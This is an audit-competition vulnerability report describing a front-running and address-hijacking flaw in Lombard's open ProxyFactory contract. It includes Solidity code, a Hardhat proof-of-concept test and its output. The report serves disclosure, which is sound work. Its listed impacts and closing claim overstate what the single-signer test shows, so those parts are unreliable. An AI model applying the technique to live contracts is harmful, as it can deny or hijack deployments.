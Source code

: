 # #38066 \[SC-Medium] \`ProxyFactory\` is vulnerable to DoS/Address Hijacking

**Submitted on Dec 23rd 2024 at 17:36:14 UTC by @holydevoti0n for** [**Audit Comp | Lombard**](https://immunefi.com/audit-competition/audit-comp-lombard)

* **Report ID:** #38066
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://github.com/lombard-finance/evm-smart-contracts/blob/main/contracts/factory/ProxyFactory.sol
* **Impacts:**
  * Block stuffing
  * Unbounded gas consumption

## Description

## Vulnerability Details

An attacker can front-run the `createTransparentProxy` call with the same `salt` but different constructor parameters (e.g., a different `admin`). This lets them deploy first and take the same final address the user intended to use. Once deployed, the address is no longer available to the legitimate user, causing denial of service or address hijacking.

```solidity
contract ProxyFactory {
    function createTransparentProxy(
        address implementation,
        address admin,
        bytes memory data,
        bytes32 salt
    ) public returns (address) {
        bytes memory bytecode = abi.encodePacked(
            type(TransparentUpgradeableProxy).creationCode,
            abi.encode(implementation, admin, data)
        );

@>        address proxy = CREATE3.deploy(salt, bytecode, 0);
        return proxy;
    }
}
```

The main issue here is the following:

The factory is fully open; anyone can call it without restrictions. Deterministic deployment here depends only on (factoryAddress, salt, fixedProxyBytecode), not on constructor arguments. Using the same salt will always yield the same final address.

Thus, an attacker can prevent valid deployments or forcibly take over a deterministic address.

It could be worse if those contracts are somehow used/listed as the deployed addresses where it would lead users/governance to interact with.

## Impact Details

* DoS of contract's deployment through `ProxyFactory`.
* Potential loss of funds if users/governance/devs interact with the contract.

## Recommendation

Implement an access control modifier on `createTransparentProxy`.

## Proof of Concept

Create a file called `ProxyFactoryDos.ts` inside the `test` folder.

Paste the code below and run: `npx hardhat test test/ProxyFactoryDoS.ts`

```javascript
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers';
import { ProxyFactory, LBTC, WBTCMock } from '../typechain-types';
import { ethers } from 'hardhat';
import { expect } from 'chai';
import { takeSnapshot } from '@nomicfoundation/hardhat-network-helpers';

describe('ProxyFactory DoS', () => {
    let proxyFactory: ProxyFactory;
    let lbtcImplementation: LBTC;
    let wbtcMockImplementation: WBTCMock;
    let deployer: HardhatEthersSigner;

    before(async () => {
        [deployer] = await ethers.getSigners();

        let factory = await ethers.getContractFactory('ProxyFactory');
        let contract = (await factory.deploy()) as ProxyFactory;
        await contract.waitForDeployment();
        proxyFactory = factory.attach(
            await contract.getAddress()
        ) as ProxyFactory;

        const lbtcFactory = await ethers.getContractFactory('LBTC');
        lbtcImplementation = (await lbtcFactory.deploy()) as LBTC;
        await lbtcImplementation.waitForDeployment();

        const wbtcMockFactory = await ethers.getContractFactory('WBTCMock');
        wbtcMockImplementation = (await wbtcMockFactory.deploy()) as WBTCMock;
        await wbtcMockImplementation.waitForDeployment();
    });

    it('Same salt yields the same final address even with different constructor parameters', async () => {
        const salt = ethers.keccak256('0x1234');
    
        // 1) Deploy LBTC with this salt
        const dataLBTC = lbtcImplementation.interface.encodeFunctionData(
            'initialize',
            [deployer.address, 0, deployer.address, deployer.address]
        );
        await proxyFactory.createTransparentProxy(
            await lbtcImplementation.getAddress(),
            deployer.address,
            dataLBTC,
            salt
        );
    
        const proxyAddressLBTC = await proxyFactory.getDeployed(salt);
        const lbtc = await ethers.getContractAt('LBTC', proxyAddressLBTC);
        expect(await lbtc.name()).to.equal('Lombard Staked Bitcoin');
    
        // Take snapshot AFTER deploying LBTC
        const snapshot = await takeSnapshot();
    
        // 2) Revert to the snapshot so LBTC is still deployed
        await snapshot.restore();
    
        // Now attempt to deploy WBTC with the same salt
        const dataWBTC = wbtcMockImplementation.interface.encodeFunctionData('initialize', []);
    
        // Properly test revert:
        await expect(
            proxyFactory.createTransparentProxy(
                await wbtcMockImplementation.getAddress(),
                deployer.address,
                dataWBTC,
                salt
            )
        ).to.be.revertedWith('DEPLOYMENT_FAILED');
    });    
});

```

Output:

```javascript
ProxyFactory DoS
    ✔ Same salt yields the same final address even with different constructor parameters


  1 passing (192ms)
```

Here we proof that the attacker front-run the transaction and created a proxy with the same address using a different implementation.
